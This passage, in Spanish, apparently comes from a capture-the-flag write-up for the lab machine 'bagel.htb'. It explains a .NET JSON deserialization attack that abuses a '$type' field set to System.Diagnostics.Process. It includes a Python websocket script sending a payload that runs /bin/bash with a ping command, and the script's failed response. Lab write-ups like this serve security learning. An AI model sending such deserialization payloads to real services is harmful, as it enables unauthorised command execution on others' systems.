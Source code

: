 Lo que mas me interesa de este payload es el valor de `$type`
- **Valor:** `"System.Diagnostics.Process, System.Diagnostics.Process"`
- Este campo especifica el **tipo** de objeto que se está deserializando. El formato es `"Namespace.Clase, Assembly"`. En este caso, el tipo que se está deserializando es `System.Diagnostics.Process`, que se utiliza para iniciar y gestionar procesos del sistema operativo.
- La clave `"$type"` es crucial para permitir la **deserialización polimórfica** y la ejecución de código arbitrario. En este caso, especificamos que el objeto deserializado debe ser de tipo `Process`.

Escribiendo un simple script en python...
```console
import websocket

url = "ws://bagel.htb:5000/"

# Payload JSON malicioso
payload = '''
{
  "$type": "System.Diagnostics.Process, System.Diagnostics.Process",
  "StartInfo": {
    "FileName": "/bin/bash",
    "Arguments": "-c 'ping -c 4 10.10.14.197'"
  }
}
'''

ws = websocket.WebSocket()
ws.connect(url)

print("[*] Enviando payload malicioso...")
ws.send(payload)

response = ws.recv()
print("[*] Respuesta del servidor:", response)

ws.close()
```

Al ejecutarlo nos devuelve lo siguiente:
```console
python3 exploit.py
[*] Enviando payload malicioso...
[*] Respuesta del servidor: "{\"Message\":\"unknown\"}"
```

Esto significa que la solicitud ha generado una excepción en el método, por lo cual nos ha devuelto ese mensaje.
![Write-up Image](images/Screenshot_5.png)
